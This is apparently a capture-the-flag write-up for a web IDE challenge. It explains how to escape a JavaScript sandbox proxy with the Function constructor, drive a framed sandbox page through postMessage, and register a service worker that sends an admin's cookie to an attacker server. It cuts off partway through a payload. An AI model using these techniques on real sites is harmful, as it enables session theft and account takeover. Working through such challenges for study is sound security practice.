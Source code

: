 ```javascript
```

The window object is actually being called through an object proxy which only allows `console: { log }` and `eval: window.eval` to pass through.
This can be circumvented by calling functions through the Function class object.

`[].constructor.constructor` gives a Function constructor, therefore `[].constructor.constructor(< code here >)()` will construct a function out of the code and call it without the call being visible to the proxy.

#### Step 2: Somehow take control of the origin to be able to send fetch requests to /ide/save ( this step is required because we need the id of the stored Javascript to reference it later )

For this we can embed an iframe of the `/sandbox.html` into a private server and write some JS to post messages to the iframe.(Note that we can create the iframe of that endpoint because the `X-Frame-Options: Deny` header is removed for it).
Also keep in mind that this is good amount of power, since any message we post to the iframe will be evaled in it's handler.
Now we can post payloads like `[].constructor.constructor("fetch('/id/save')")()` since the source of such fetch requests is now `/sandbox.html` which is on the same origin.

Great. This means now we can get the id of the stored file.

***But wait, why can't we just use document.cookie to get the cookie since we are on the same origin?***
That is because the path of the cookie is set to `/ide` and it is only visible on `/ide/*` endpoints and not from `/sandbox.html`

#### Step 3: Write a Service Worker so that you get the cookie from `/ide/` even though we don't have control over it 

Service workers are very powerful since they give a great deal of frontend control to the scope they're registered for. Register such a SW for `/ide` or `/ide/saves/` scopes. This service worker should send the document.cookie to your VPS. But there is a catch, there is no implementation so far for service workers to access the cookies.(They don't run in window context and therefore also have no direct access to DOM). So we can have the service worker respond with malicious script that takes the cookie and sends it to the VPS (Note that this does not require DOM control since we are not modifying the DOM, we are rendering new DOM with mailicous script).

This SW can be written and saved to `/ide/saves/` (since SW scripts need to be in the same origin as where they are to be registered, you cannot host this on your private server)

#### Step 4: CSRF the admin

Send the link to your HTML form (with the iframe) to the admin and get the cookie.

#### Payload (derived from [payload by Ailuropoda Melanoleuca](https://discord.com/channels/805956008665022475/808122408019165204/808143656946368512))

1) Getting id
```html
<iframe src='https://web-ide.dicec.tf/sandbox.html'></iframe> <!-- iframe to /sandbox.html -->
<script>

// Post message to the iframe
document.querySelector('iframe').contentWindow.postMessage("

//circumvent the proxy
[].constructor.constructor(`
	// post the service worker script
	fetch('/ide/save', {
		method: 'POST',
```